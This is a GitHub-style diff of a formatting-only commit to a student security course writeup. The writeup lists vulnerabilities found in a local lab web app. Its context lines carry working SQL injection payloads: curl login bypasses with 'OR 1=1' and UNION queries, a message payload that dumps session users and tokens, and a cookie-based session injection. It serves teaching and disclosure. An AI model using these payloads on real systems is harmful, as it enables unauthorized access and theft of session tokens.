

Before and after one commit to MingoMango17/CMSC134-Writeups, a Markdown page: Machine_Problem_3/writeup.md, the part around the change. Drawn GitHub-style.

Commit message:
fix formatting

````diff
--- a/Machine_Problem_3/writeup.md
+++ b/Machine_Problem_3/writeup.md
@@ -25,7 +25,7 @@ Authors:
 
 List of vulnerabilities discovered:
 
-> [!NOTE]- SQL Injection Authentication Bypass (aCVE-2024-0001)
+> **SQL Injection Authentication Bypass (aCVE-2024-0001)**
 >
 > ```bash
 > curl 'http://0.0.0.0:5000/login' -X POST --data-raw "username=a' OR 1=1 --&password="
@@ -33,7 +33,7 @@ List of vulnerabilities discovered:
 > curl 'http://0.0.0.0:5000/login' -X POST --data-raw "username=' UNION select 1 from users; --&password="
 > ```
 
-> [!NOTE]- Stored XSS and SQL Injection Vulnerability by Execution of Arbitrary SQL Queries and JavaScript (aCVE-2024-0002).
+> **Stored XSS and SQL Injection Vulnerability by Execution of Arbitrary SQL Queries and JavaScript (aCVE-2024-0002)**
 >
 > Use these as the message:
 >
@@ -43,7 +43,7 @@ List of vulnerabilities discovered:
 > - `1', 1), ((SELECT GROUP_CONCAT(user || ':' || token, '<br>') FROM sessions), 1)--`
 
 
-> [!NOTE]- Credential Bypass via SQL Injection on Session Token (aCVE-2024-0003)
+> **Credential Bypass via SQL Injection on Session Token (aCVE-2024-0003)**
 >
 > ```bash
 > curl -L 'http://0.0.0.0:5000/home' -H "Cookie: session_token=' UNION SELECT id, username FROM users LIMIT 1 --"
````
